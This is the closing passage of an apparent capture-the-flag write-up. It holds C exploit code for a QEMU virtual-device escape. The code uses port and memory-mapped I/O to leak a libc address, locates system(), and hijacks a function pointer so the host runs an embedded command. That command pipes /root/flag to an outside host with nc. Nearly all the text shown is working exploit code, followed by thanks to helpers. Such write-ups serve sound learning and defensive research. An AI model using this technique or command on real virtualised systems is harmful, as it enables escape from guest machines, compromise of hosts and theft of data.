     perror("munmap");
    exit(-1);
  }
    close(fd);
}

int main(int argc, char* argv[])
{
  if (0 != iopl(3)) {
    perror("iopl permissions");
    return -1;
  }

  unsigned long long  _srandom;
  unsigned long long  libc_base;
  unsigned long long  _system;

  /*
    >>> map(hex, unpack_many("cat /root/flag | nc 10.0.2.2 1234   "))
    ['0x20746163', '0x6f6f722f', '0x6c662f74', '0x7c206761', 
    '0x20636e20', '0x302e3031', '0x322e322e', '0x33323120', '0x20202034']
  */  

  mmio_write(0x6f6f722f, 0xc);
  mmio_write(0x20746163, 0x8);
  mmio_write(0x6c662f74, 0x10);
  mmio_write(0x7c206761, 0x14);
  mmio_write(0x20636e20, 0x18);
  mmio_write(0x302e3031, 0x1c);
  mmio_write(0x322e322e, 0x20);
  mmio_write(0x33323120, 0x24);
  mmio_write(0x20202034, 0x28);

  _srandom = pmio_read(0x108);
  _srandom <<= 32;
  _srandom |= pmio_read(0x104);

  libc_base = _srandom - 0x3a8d0;
  _system = libc_base + 0x45390;
  printf("libc_base: %llx\n", libc_base);
  printf("_system  : %llx\n", _system);

  pmio_arb_write(_system & 0xffffffff, 0x114);

  // call system ptr
  mmio_write(0, 0xc);

  return 0;
}
{% endhighlight %}


> Special thanks to [aegis](https://twitter.com/lunixbochs) and the task author [rcvalle](https://twitter.com/rcvalle?lang=en) for helping me understand QEMU and IO emulation. Thanks for the challenge. :)
